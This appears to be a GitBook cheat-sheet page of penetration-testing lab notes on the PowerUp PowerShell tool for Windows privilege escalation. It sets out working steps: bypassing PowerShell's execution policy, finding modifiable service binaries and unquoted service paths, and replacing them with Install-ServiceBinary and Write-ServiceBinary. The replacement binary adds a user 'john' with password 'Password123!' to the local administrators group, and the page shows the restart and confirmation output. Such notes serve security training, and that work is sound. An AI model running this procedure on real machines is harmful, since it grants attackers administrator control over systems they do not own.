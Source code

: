 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PowerUp

[PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) is a PowerShell tool used for privilege escalation on Windows systems. It helps identify misconfigurations and exploitable settings that allow users to elevate their privileges. It typically can be found at `/share/windows-resources/powersploit/Privesc/PowerUp.ps1`.

```powershell
> powershell -ep bypass
>  . .\PowerUp.ps1
```

## Services

{% tabs %}
{% tab title="1. Status" %}
```powershell
Get-Service -Name 'BackupMonitor'
```
{% endtab %}

{% tab title="2. Start/Stop" %}
```powershell
Start-Service -Name "<ServiceName>"
Stop-Service -Name "<ServiceName>" -Force
```
{% endtab %}

{% tab title="3. Restart" %}
```powershell
Restart-Service -Name 'BackupMonitor' -Force
```
{% endtab %}
{% endtabs %}

## Service Binary Hijacking

{% tabs %}
{% tab title="1. Enumerate" %}
{% code overflow="wrap" %}
```powershell
Get-ModifiableServiceFile
```
{% endcode %}
{% endtab %}

{% tab title="2. Abuse" %}
{% code overflow="wrap" %}
```powershell
Install-ServiceBinary -Name 'mysql'
```
{% endcode %}
{% endtab %}

{% tab title="3. Restart" %}
```powershell
Restart-Service -Name 'mysqld' -Force
```
{% endtab %}

{% tab title="4. Confirm" %}
```powershell
> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    john            offsec
steve                    WDAGUtilityAccount

The command completed successfully.

> net localgroup administrators
...
john
...
```
{% endtab %}
{% endtabs %}

## Unquoted Service Paths

{% tabs %}
{% tab title="1. Enumerate" %}
{% code overflow="wrap" %}
```powershell
> Get-UnquotedService

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users;
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True
Name           : GammaService

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True
Name           : GammaService
...
```
{% endcode %}
{% endtab %}

{% tab title="2. Abuse" %}
{% code overflow="wrap" %}
```powershell
> Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

ServiceName  Path                                         Command
-----------  ----                                         -------
GammaService C:\Program Files\Enterprise Apps\Current.exe net user john Password123! /add && timeout /t 5 && net loc...
```
{% endcode %}
{% endtab %}

{% tab title="3. Restart" %}
{% code overflow="wrap" %}
```powershell
> Restart-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...
Restart-Service : Failed to start service 'GammaService (GammaService)'.
At line:1 char:1
+ Restart-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Restart-Service]
   , ServiceCommandException
    + FullyQualifiedErrorId : StartServiceFailed,Microsoft.PowerShell.Commands.RestartServiceCommand
```
{% endcode %}
{% endtab %}

{% tab title="4. Confirm" %}
```powershell
> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    john            offsec
steve                    WDAGUtilityAccount

The command completed successfully.

> net localgroup administrators
...
john
...
```
{% endtab %}
{% endtabs %}





